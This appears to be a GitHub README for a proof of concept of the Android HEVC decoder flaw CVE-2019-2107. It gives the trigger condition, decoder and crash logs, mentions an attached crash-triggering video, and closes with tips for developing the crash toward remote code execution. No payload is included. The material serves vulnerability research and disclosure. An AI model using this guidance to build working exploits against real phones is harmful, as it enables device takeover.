


# CVE-2019-2107
CVE-2019-2107

CVE-2019-2107 - looks scary. Still remember Stagefright and PNG bugs vulns .... With CVE-2019-2107 the decoder/codec runs under mediacodec user and with properly "crafted" video (with tiles enabled - ps_pps->i1_tiles_enabled_flag)  you can possibly do RCE. The codec affected is HVEC (a.k.a H.265 and MPEG-H Part 2) #exploit  #rce #android #stagefright #cve





# More infos

LineageOS (Android):
```
02-11 20:18:48.238   260   260 D FFmpegExtractor: ffmpeg detected media content as 'video/hevc' with confidence 0.08
02-11 20:18:48.239   260   260 I FFMPEG  : [hevc @ 0xb348f000] Invalid tile widths.
02-11 20:18:48.239   260   260 I FFMPEG  : [hevc @ 0xb348f000] PPS id out of range: 0
02-11 20:18:48.240   260   260 I FFMPEG  : [hevc @ 0xb348f000] Invalid tile widths.
02-11 20:18:48.240   260   260 I FFMPEG  : [hevc @ 0xb348f000] PPS id out of range: 0
02-11 20:18:48.240   260   260 I FFMPEG  : [hevc @ 0xb348f000] Error parsing NAL unit #5.
02-11 20:18:48.240   260   260 I FFMPEG  : [hevc @ 0xb348f000] Invalid tile widths.
```

mplayer (laptop)
```
id: 0
[hevc @ 0x7f0bf58a7560]Decoding VPS
[hevc @ 0x7f0bf58a7560]Main profile bitstream
[hevc @ 0x7f0bf58a7560]Decoding SPS
[hevc @ 0x7f0bf58a7560]Main profile bitstream
[hevc @ 0x7f0bf58a7560]Decoding VUI
[hevc @ 0x7f0bf58a7560]Decoding PPS
[hevc @ 0x7f0bf58a7560]Invalid tile widths.
[hevc @ 0x7f0bf58a7560]Decoding SEI
[hevc @ 0x7f0bf58a7560]Skipped PREFIX SEI 5
[hevc @ 0x7f0bf58a7560]PPS id out of range: 0
[hevc @ 0x7f0bf58a7560]Error parsing NAL unit #5.
Error while decoding frame!
```


This stops it when the tile width is bigger than allowed:
https://gitlab.freedesktop.org/gstreamer/meson-ports/ffmpeg/blob/ebf648d490448d511b5fe970d76040169e65ef74/libavcodec/hevc_ps.c#L1526

So the check are there.

On stock/google Andoird I think it will use *libhevc*, not ffmpeg, when using VideoPlayer.

https://www.droidviews.com/enjoy-hevc-h-265-video-playback-on-android/

I have the google codec:

OMX.google.hevc.decoder

I am wondering however why it does not crash ....

Attaching the video (videopoc.mp4) that should trigger this condition:

```
if (value >= ps_sps->i2_pic_wd_in_ctb - start)
+                        {
+                            return IHEVCD_INVALID_HEADER;
+                        }
```
Maybe somebody have more luck.

# More infos 2

Whoooo hooo .... made it :)

Proof of concept is in `hevc-crash-poc.mp4`, other videos are for non andoird players.

Hvec-"fright" is possible. You can own the mobile by viewing a video with payload. In my example I didn't include real payload.


```
07-13 21:50:59.000  3351  3351 I /system/bin/tombstoned: received crash request for pid 24089
07-13 21:50:59.006 24089 24089 F DEBUG   : *** *** *** *** *** *** *** *** *** *** *** *** *** *** *** ***
07-13 21:50:59.006 24089 24089 F DEBUG   : Build fingerprint: 'samsung/hero2ltexx/hero2lte:8.0.0/R16NW/G935FXXS4ESC3:user/release-keys'
07-13 21:50:59.006 24089 24089 F DEBUG   : Revision: '9'
07-13 21:50:59.006 24089 24089 F DEBUG   : ABI: 'arm64'
07-13 21:50:59.006 24089 24089 F DEBUG   : pid: 24089, tid: 24089, name: media.extractor  >>> mediaextractor <<<
07-13 21:50:59.006 24089 24089 F DEBUG   : signal 11 (SIGSEGV), code 1 (SEGV_MAPERR), fault addr 0x7ccb800050
07-13 21:50:59.009 24089 24089 F DEBUG   :     x0   00000000ffffff36  x1   0000000000000000  x2   00000000000000f0  x3   0000000000000001
07-13 21:50:59.009 24089 24089 F DEBUG   :     x4   0000000000000001  x5   0000007ccb5df1b8  x6   0000007cc927363e  x7   0000007cc8e7bd04
07-13 21:50:59.009 24089 24089 F DEBUG   :     x8   0000000000004170  x9   0000000000004160  x10  00000000ffffffff  x11  0000007ccb7fbef0
07-13 21:50:59.010 24089 24089 F DEBUG   :     x12  0000007ccb5d3ce0  x13  000000000000001e  x14  0000000000000003  x15  0000000000000001
07-13 21:50:59.010 24089 24089 F DEBUG   :     x16  0000007cc99f5f50  x17  0000007ccb88885c  x18  0000007ccb566225  x19  0000007ccb562020
07-13 21:50:59.010 24089 24089 F DEBUG   :     x20  0000007ccb4f18a0  x21  0000007ccb468c6c  x22  0000000000000000  x23  0000000000000006
07-13 21:50:59.010 24089 24089 F DEBUG   :     x24  000000000000001e  x25  0000000000000094  x26  0000000000004160  x27  0000000000000001
07-13 21:50:59.010 24089 24089 F DEBUG   :     x28  0000007ccb55e750  x29  0000007fd6d39d90  x30  0000007cc99c4438
07-13 21:50:59.010 24089 24089 F DEBUG   :     sp   0000007fd6d39d20  pc   0000007cc99c44c4  pstate 0000000080000000
07-13 21:50:59.013 24089 24089 F DEBUG   : 
--
```





# More infos 3

If you want to bring it further to get RCE (Remote Command Execution)

I would start with getting LineageOS rom with debug build (if you don't have a rooted target phone, disassembly gives you headaches, should be much easier to work with), possibly changing memory allocator to jemalloc (to target newer mobiles)
You could set it in your BoardConfig:

device/samsung/msm8226-common/BoardConfigCommon.mk

```
# Memory
#MALLOC_IMPL := dlmalloc
MALLOC_IMPL := jemalloc
```


I found that my Samsung mobile was using jemalloc, not sure about older/newer Mobile. Hopefully the same.

Some more info about jemallc/dlmalloc: https://blog.nsogroup.com/a-tale-of-two-mallocs-on-android-libc-allocators-part-1-dlmalloc/


Here I removed the checks from libavcodec.so

Test on LineageOS 7.1.2 on Samsung S3 Neo+

As we can see the mediaplayer has crashed/went away ... with unhandled events (*MediaPlayer: mediaplayer went away with unhandled events*). Not sure why it does not crash natively. To goal would be here to take the execution flow. Good luck!


```
02-25 16:44:15.008  2954  2954 I art     : Explicit concurrent mark sweep GC freed 4988(521KB) AllocSpace objects, 1(40KB) LOS objects, 25% free, 6MB/8MB, paused 484us total 43.471ms
02-25 16:44:15.011  2954  2954 I art     : Starting a blocking GC Explicit
02-25 16:44:15.046  2954  2954 I art     : Explicit concurrent mark sweep GC freed 435(17KB) AllocSpace objects, 0(0B) LOS objects, 24% free, 6MB/8MB, paused 523us total 34.700ms
02-25 16:44:15.083  2954  2954 W MediaPlayer: mediaplayer went away with unhandled events
```
